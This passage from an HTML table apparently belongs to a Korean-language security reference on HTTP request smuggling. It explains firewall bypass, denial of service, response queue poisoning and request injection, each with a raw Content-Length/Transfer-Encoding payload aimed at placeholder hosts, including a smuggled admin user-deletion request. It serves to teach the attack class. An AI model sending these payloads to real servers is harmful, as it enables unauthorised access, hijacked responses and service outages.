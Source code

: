 Content-Length: 52
Transfer-Encoding: chunked 
<br> 
0 
<br> 
GET /admin/delete-user?id=123 HTTP/1.1
Host: internal-api.local</code></pre></td>
      <td>Request Smuggling을 이용해 방화벽이나 보안 장비를 우회하여 내부 네트워크로 HTTP 요청을 터널링하는 공격이다. 프록시 서버의 파싱 오류를 악용해 제한된 리소스에 접근하거나 내부 API를 호출할 수 있다.</td>
      <td>[5], [E]</td>
    </tr>
    <tr>
      <td>Denial of Service</td>
      <td><pre><code>POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked 
<br>
99999999
a 
0</code></pre></td>
      <td>Request Smuggling을 통해 서버의 연결 풀을 고갈시키거나 파싱 오류를 유발하여 서비스를 마비시키는 공격이다. 잘못된 Content-Length나 Transfer-Encoding 헤더를 사용해 서버가 무한정 대기하거나 크래시하도록 만든다.</td>
      <td>[F], [4]</td>
    </tr>
    <tr>
      <td>Response Queue Poisoning</td>
      <td><pre><code>POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 11
Transfer-Encoding: chunked  
<br>
0  
<br>
GPOST /x HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100 <br>
x=</code></pre></td>
      <td>Request Smuggling을 통해 서버의 응답 큐를 조작하여 다른 사용자의 요청에 대한 응답을 받거나, 악성 응답을 큐에 주입하는 공격이다. 연결 재사용 메커니즘의 취약점을 악용한다.</td>
      <td>[G], [H]</td>
    </tr>
    <tr>
      <td>Request Injection</td>
      <td><pre><code>POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 83
Transfer-Encoding: chunked 
<br>
0 
<br>
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Length: 15 
<br> 
username=admin
GET / HTTP/1.1
Host: vulnerable-website.com</code></pre></td>
      <td>Request Smuggling을 통해 백엔드 서버에 임의의 HTTP 요청을 주입하는 공격이다. 프론트엔드와 백엔드 간의 요청 경계 인식 차이를 악용하여 추가적인 요청을 몰래 삽입한다.</td>
      <td>[7], [B]</td>
    </tr>
  </tbody>
</table>
